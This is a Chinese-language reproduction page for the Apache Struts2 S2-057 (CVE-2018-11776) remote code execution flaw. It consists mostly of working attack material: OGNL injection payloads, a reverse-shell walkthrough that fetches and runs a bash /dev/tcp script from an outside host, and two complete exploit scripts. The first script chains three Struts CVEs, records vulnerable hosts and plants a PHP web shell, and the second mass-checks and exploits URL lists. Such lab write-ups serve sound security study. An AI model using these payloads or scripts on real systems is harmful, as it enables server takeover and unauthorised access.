



Apache Struts2 S2-057 远程代码执行漏洞 CVE-2018-11776¶
漏洞描述¶
漏洞详情：
- https://cwiki.apache.org/confluence/display/WW/S2-057
- https://lgtm.com/blog/apache_struts_CVE-2018-11776
- https://xz.aliyun.com/t/2618
- https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg
漏洞影响¶
影响版本：Struts <= 2.3.34、Struts 2.5.16
环境搭建¶
Vulhub 执行以下命令启动 s2-057 测试环境：
docker-compose build
docker-compose up -d
启动环境后，访问 http://your-ip:8080/orders.xhtml 即可看到 showcase 页面。
漏洞复现¶
S2-057 需要以下条件：
alwaysSelectFullNamespace为真- 操作元素没有设置命名空间属性，或者使用通配符
命名空间会被用户从 uri 传递过来，解析为 OGNL 表达式，最终导致远程代码执行漏洞。
有效载荷：
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action

可以看到 Location 头中已经返回了 233*233 的结果。
使用来自 S2-057 漏洞分析 的有效 Payload 和 POC：
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
成功执行 id 命令：

反弹 shell¶
编写 shell 脚本并启动 http 服务器：
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
上传 shell.sh 文件的命令为：
wget 192.168.174.128/shell.sh
上传 shell.sh 文件的 Payload 为：
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27wget%20192.168.174.128/shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
执行 shell.sh 文件的命令为：
bash shell.sh
执行 shell.sh 文件的 Payload 为：
GET /struts2-showcase/$%7B(%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS).(%23ct%3D%23request%5B%27struts.valueStack%27%5D.context).(%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D).(%23ou%3D%23cr.getInstance(%40com.opensymphony.xwork2.ognl.OgnlUtil%40class)).(%23ou.getExcludedPackageNames().clear()).(%23ou.getExcludedClasses().clear()).(%23ct.setMemberAccess(%23dm)).(%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27bash%20shell.sh%27)).(%40org.apache.commons.io.IOUtils%40toString(%23a.getInputStream()))%7D/actionChain1.action HTTP/1.1
成功接收反弹 shell：

漏洞 EXP¶
EXP 1¶
#!/usr/bin/python
from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
from builtins import str
import urllib.request, urllib.error, urllib.parse
import time
import sys
import os
import subprocess
import requests
import readline
import urllib.parse
RED = '\033[1;31m'
BLUE = '\033[94m'
BOLD = '\033[1m'
GREEN = '\033[32m'
OTRO = '\033[36m'
YELLOW = '\033[33m'
ENDC = '\033[0m'
def cls():
os.system(['clear', 'cls'][os.name == 'nt'])
cls()
logo = BLUE+'''
___ _____ ___ _ _ _____ ___
( _`\(_ _)| _`\ ( ) ( )(_ _)( _`\
| (_(_) | | | (_) )| | | | | | | (_(_)
`\__ \ | | | , / | | | | | | `\__ \
( )_) | | | | |\ \ | (_) | | | ( )_) |
`\____) (_) (_) (_)(_____) (_) `\____)
=[ Command Execution v3]=
By @s1kr10s
'''+ENDC
print(logo)
print(" * Ejemplo: http(s)://www.victima.com/files.login\n")
host = input(BOLD+" [+] HOST: "+ENDC)
if len(host) > 0:
if host.find("https://") != -1 or host.find("http://") != -1:
poc = "?redirect:${%23w%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29.getWriter%28%29,%23w.println%28%27mamalo%27%29,%23w.flush%28%29,%23w.close%28%29}"
def exploit(comando):
exploit = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+comando+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
return exploit
def exploit2(comando):
exploit2 = "Content-Type:%{(+++#_='multipart/form-data').(+++#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(+++#_memberAccess?(+++#_memberAccess=#dm):((+++#container=#context['com.opensymphony.xwork2.ActionContext.container']).(+++#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(+++#ognlUtil.getExcludedPackageNames().clear()).(+++#ognlUtil.getExcludedClasses().clear()).(+++#context.setMemberAccess(+++#dm)))).(+++#shell='"+str(comando)+"').(+++#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(+++#shells=(+++#iswin?{'cmd.exe','/c',#shell}:{'/bin/sh','-c',#shell})).(+++#p=new java.lang.ProcessBuilder(+++#shells)).(+++#p.redirectErrorStream(true)).(+++#process=#p.start()).(+++#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(+++#process.getInputStream(),#ros)).(+++#ros.flush())}"
return exploit2
def exploit3(comando):
exploit3 = "%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27"+comando+"%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D"
return exploit3
def pwnd(shellfile):
exploitfile = "?redirect:${%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]{"+shellfile+"}%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29}"
return exploitfile
def validador():
arr_lin_win = ["file%20/etc/passwd","dir","net%20users","id","/sbin/ifconfig","cat%20/etc/passwd"]
return arr_lin_win
#def reversepl(ip,port):
# print "perl"
#def reversepy(ip,port):
# print "python"
# CVE-2013-2251 ---------------------------------------------------------------------------------
try:
response = ''
response = urllib.request.urlopen(host+poc)
except:
print(RED+" Servidor no responde\n"+ENDC)
exit(0)
print(BOLD+"\n [+] EJECUTANDO EXPLOIT CVE-2013-2251"+ENDC)
if response.read().find("mamalo") != -1:
print(RED+" [-] VULNERABLE"+ENDC)
owned = open('vulnsite.txt', 'a')
owned.write(str(host)+'\n')
owned.close()
opcion = input(YELLOW+" [-] RUN THIS EXPLOIT (s/n): "+ENDC)
#print BOLD+" * [SHELL REVERSA]"+ENDC
#print OTRO+" Struts@Shell:$ reverse 127.0.0.1 4444 (perl,python,bash)\n"+ENDC
if opcion == 's':
print(YELLOW+" [-] GET PROMPT...\n"+ENDC)
time.sleep(1)
print(BOLD+" * [UPLOAD SHELL]"+ENDC)
print(OTRO+" Struts@Shell:$ pwnd (php)\n"+ENDC)
while 1:
separador = input(GREEN+"Struts2@Shell_1:$ "+ENDC)
espacio = separador.split(' ')
comando = "','".join(espacio)
if espacio[0] != 'reverse' and espacio[0] != 'pwnd':
shell = urllib.request.urlopen(host+exploit("'"+str(comando)+"'"))
print("\n"+shell.read())
elif espacio[0] == 'pwnd':
pathsave=input("path EJ:/tmp/: ")
if espacio[1] == 'php':
shellfile = """'python','-c','f%3dopen("/tmp/status.php","w");f.write("<?php%20system($_GET[ksujenenuhw])?>")'"""
urllib.request.urlopen(host+pwnd(str(shellfile)))
shell = urllib.request.urlopen(host+exploit("'ls','-l','"+pathsave+"status.php'"))
if shell.read().find(pathsave+"status.php") != -1:
print(BOLD+GREEN+"\nCreate File Successfull :) ["+pathsave+"status.php]\n"+ENDC)
else:
print(BOLD+RED+"\nNo Create File :/\n"+ENDC)
# CVE-2017-5638 ---------------------------------------------------------------------------------
print(BLUE+" [-] NO VULNERABLE"+ENDC)
print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2017-5638"+ENDC)
x = 0
while x < len(validador()):
valida = validador()[x]
try:
req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(valida))})
result = urllib.request.urlopen(req).read()
if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
print(RED+" [-] VULNERABLE"+ENDC)
owned = open('vulnsite.txt', 'a')
owned.write(str(host)+'\n')
owned.close()
opcion = input(YELLOW+" [-] RUN THIS EXPLOIT (s/n): "+ENDC)
if opcion == 's':
print(YELLOW+" [-] GET PROMPT...\n"+ENDC)
time.sleep(1)
while 1:
try:
separador = input(GREEN+"\nStruts2@Shell_2:$ "+ENDC)
req = urllib.request.Request(host, None, {'User-Agent': 'Mozilla/5.0', 'Content-Type': exploit2(str(separador))})
result = urllib.request.urlopen(req).read()
print("\n"+result)
except:
exit(0)
else:
x = len(validador())
else:
print(BLUE+" [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
except:
pass
x=x+1
# CVE-2018-11776 ---------------------------------------------------------------------------------
print(BLUE+" [-] NO VULNERABLE"+ENDC)
print(BOLD+" [+] EJECUTANDO EXPLOIT CVE-2018-11776"+ENDC)
x = 0
while x < len(validador()):
#Filtramos la url solo dominio
url = host.replace('#', '%23')
url = host.replace(' ', '%20')
if ('://' not in url):
url = str("http://") + str(url)
scheme = urllib.parse.urlparse(url).scheme
site = scheme + '://' + urllib.parse.urlparse(url).netloc
#Filtramos la url solo path
file_path = urllib.parse.urlparse(url).path
if (file_path == ''):
file_path = '/'
valida = validador()[x]
try:
result = requests.get(site+"/"+exploit3(str(valida))+file_path).text
if result.find("ASCII") != -1 or result.find("No such") != -1 or result.find("Directory of") != -1 or result.find("Volume Serial") != -1 or result.find("inet") != -1 or result.find("root:") != -1 or result.find("uid=") != -1 or result.find("accounts") != -1 or result.find("Cuentas") != -1:
print(RED+" [-] VULNERABLE"+ENDC)
owned = open('vulnsite.txt', 'a')
owned.write(str(host)+'\n')
owned.close()
opcion = input(YELLOW+" [-] RUN THIS EXPLOIT (s/n): "+ENDC)
if opcion == 's':
print(YELLOW+" [-] GET PROMPT...\n"+ENDC)
time.sleep(1)
print(BOLD+" * [UPLOAD SHELL]"+ENDC)
print(OTRO+" Struts@Shell:$ pwnd (php)\n"+ENDC)
while 1:
separador = input(GREEN+"Struts2@Shell_3:$ "+ENDC)
espacio = separador.split(' ')
comando = "%20".join(espacio)
shell = urllib.request.urlopen(host+exploit3(str(comando)))
print("\n"+shell.read())
else:
x = len(validador())
exit(0)
else:
print(BLUE+" [-] NO VULNERABLE "+ENDC + "Payload: " + str(x))
except:
pass
x=x+1
else:
print(RED+" Debe introducir el protocolo (https o http) para el dominio\n"+ENDC)
exit(0)
else:
print(RED+" Debe Ingresar una Url\n"+ENDC)
exit(0)
EXP 2¶
#!/usr/bin/env python3
# coding=utf-8
# *****************************************************
# struts-pwn: Apache Struts CVE-2018-11776 Exploit
# Author:
# Mazin Ahmed <Mazin AT MazinAhmed DOT net>
# This code uses a payload from:
# https://github.com/jas502n/St2-057
# *****************************************************
from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import str
from builtins import range
import argparse
import random
import requests
import sys
try:
from urllib import parse as urlparse
except ImportError:
import urllib.parse
# Disable SSL warnings
try:
import requests.packages.urllib3
requests.packages.urllib3.disable_warnings()
except Exception:
pass
if len(sys.argv) <= 1:
print('[*] CVE: 2018-11776 - Apache Struts2 S2-057')
print('[*] Struts-PWN - @mazen160')
print('\n%s -h for help.' % (sys.argv[0]))
exit(0)
parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url",
dest="url",
help="Check a single URL.",
action='store')
parser.add_argument("-l", "--list",
dest="usedlist",
help="Check a list of URLs.",
action='store')
parser.add_argument("-c", "--cmd",
dest="cmd",
help="Command to execute. (Default: 'id')",
action='store',
default='id')
parser.add_argument("--exploit",
dest="do_exploit",
help="Exploit.",
action='store_true')
args = parser.parse_args()
url = args.url if args.url else None
usedlist = args.usedlist if args.usedlist else None
cmd = args.cmd if args.cmd else None
do_exploit = args.do_exploit if args.do_exploit else None
headers = {
'User-Agent': 'struts-pwn (https://github.com/mazen160/struts-pwn_CVE-2018-11776)',
# 'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.36',
'Accept': '*/*'
}
timeout = 3
def parse_url(url):
"""
Parses the URL.
"""
# url: http://example.com/demo/struts2-showcase/index.action
url = url.replace('#', '%23')
url = url.replace(' ', '%20')
if ('://' not in url):
url = str("http://") + str(url)
scheme = urllib.parse.urlparse(url).scheme
# Site: http://example.com
site = scheme + '://' + urllib.parse.urlparse(url).netloc
# FilePath: /demo/struts2-showcase/index.action
file_path = urllib.parse.urlparse(url).path
if (file_path == ''):
file_path = '/'
# Filename: index.action
try:
filename = url.split('/')[-1]
except IndexError:
filename = ''
# File Dir: /demo/struts2-showcase/
file_dir = file_path.rstrip(filename)
if (file_dir == ''):
file_dir = '/'
return({"site": site,
"file_dir": file_dir,
"filename": filename})
def build_injection_inputs(url):
"""
Builds injection inputs for the check.
"""
parsed_url = parse_url(url)
injection_inputs = []
url_directories = parsed_url["file_dir"].split("/")
try:
url_directories.remove("")
except ValueError:
pass
for i in range(len(url_directories)):
injection_entry = "/".join(url_directories[:i])
if not injection_entry.startswith("/"):
injection_entry = "/%s" % (injection_entry)
if not injection_entry.endswith("/"):
injection_entry = "%s/" % (injection_entry)
injection_entry += "{{INJECTION_POINT}}/" # It will be renderred later with the payload.
injection_entry += parsed_url["filename"]
injection_inputs.append(injection_entry)
return(injection_inputs)
def check(url):
random_value = int(''.join(random.choice('0123456789') for i in range(2)))
multiplication_value = random_value * random_value
injection_points = build_injection_inputs(url)
parsed_url = parse_url(url)
print("[%] Checking for CVE-2018-11776")
print("[*] URL: %s" % (url))
print("[*] Total of Attempts: (%s)" % (len(injection_points)))
attempts_counter = 0
for injection_point in injection_points:
attempts_counter += 1
print("[%s/%s]" % (attempts_counter, len(injection_points)))
testing_url = "%s%s" % (parsed_url["site"], injection_point)
testing_url = testing_url.replace("{{INJECTION_POINT}}", "${{%s*%s}}" % (random_value, random_value))
try:
resp = requests.get(testing_url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
except Exception as e:
print("EXCEPTION::::--> " + str(e))
continue
if "Location" in list(resp.headers.keys()):
if str(multiplication_value) in resp.headers['Location']:
print("[*] Status: Vulnerable!")
return(injection_point)
print("[*] Status: Not Affected.")
return(None)
def exploit(url, cmd):
parsed_url = parse_url(url)
injection_point = check(url)
if injection_point is None:
print("[%] Target is not vulnerable.")
return(0)
print("[%] Exploiting...")
payload = """%24%7B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%27{0}%27%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D""".format(cmd)
testing_url = "%s%s" % (parsed_url["site"], injection_point)
testing_url = testing_url.replace("{{INJECTION_POINT}}", payload)
try:
resp = requests.get(testing_url, headers=headers, verify=False, timeout=timeout, allow_redirects=False)
except Exception as e:
print("EXCEPTION::::--> " + str(e))
return(1)
print("[%] Response:")
print(resp.text)
return(0)
def main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit):
if url:
if not do_exploit:
check(url)
else:
exploit(url, cmd)
if usedlist:
URLs_List = []
try:
f_file = open(str(usedlist), "r")
URLs_List = f_file.read().replace("\r", "").split("\n")
try:
URLs_List.remove("")
except ValueError:
pass
f_file.close()
except Exception as e:
print("Error: There was an error in reading list file.")
print("Exception: " + str(e))
exit(1)
for url in URLs_List:
if not do_exploit:
check(url)
else:
exploit(url, cmd)
print("[%] Done.")
if __name__ == "__main__":
try:
main(url=url, usedlist=usedlist, cmd=cmd, do_exploit=do_exploit)
except KeyboardInterrupt:
print("\nKeyboardInterrupt Detected.")
print("Exiting...")
exit(0)